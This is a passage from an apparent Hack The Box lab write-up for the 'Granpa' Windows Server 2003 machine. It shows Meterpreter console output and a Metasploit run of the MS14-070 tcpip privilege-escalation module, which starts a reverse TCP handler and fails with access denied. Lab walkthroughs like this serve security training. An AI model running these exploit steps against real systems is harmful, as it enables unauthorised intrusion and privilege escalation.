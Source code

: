 ```console
meterpreter > sysinfo
Computer        : GRANPA
OS              : Windows .NET Server (5.2 Build 3790, Service Pack 2)
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter >
```

I googled once again. "_Windows .NET Server (5.2 Build 3790, Service Pack 2) privesc_" returned a result containing [CVE-2014-4076](https://www.exploit-db.com/exploits/35936) (second result).  Time to check if metasploit has this already.

```console
msf5 post(multi/recon/local_exploit_suggester) > search ms14_070

Matching Modules
================

   #  Name                                        Disclosure Date  Rank     Check  Description
   -  ----                                        ---------------  ----     -----  -----------
   0  exploit/windows/local/ms14_070_tcpip_ioctl  2014-11-11       average  Yes    MS14-070 Windows tcpip!SetAddrOptions NULL Pointer Dereference


msf5 post(multi/recon/local_exploit_suggester) >
```

Jackpot.

I basically skipped pivoting to user and went straight to exploiting to admin via the above exploit in metasploit.  I got access to user.txt via the administrative shell in the next section.

### Root

Let's run the privesc exploit.

```console
msf5 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms14_070_tcpip_ioctl
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > show options

Module options (exploit/windows/local/ms14_070_tcpip_ioctl):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Exploit target:

   Id  Name
   --  ----
   0   Windows Server 2003 SP2


msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > set SESSION 1
SESSION => 1
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > run

[*] Started reverse TCP handler on 10.0.2.15:4444
[-] Exploit failed: Rex::Post::Meterpreter::RequestError stdapi_sys_config_getsid: Operation failed: Access is denied.
[*] Exploit completed, but no session was created.
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) >
```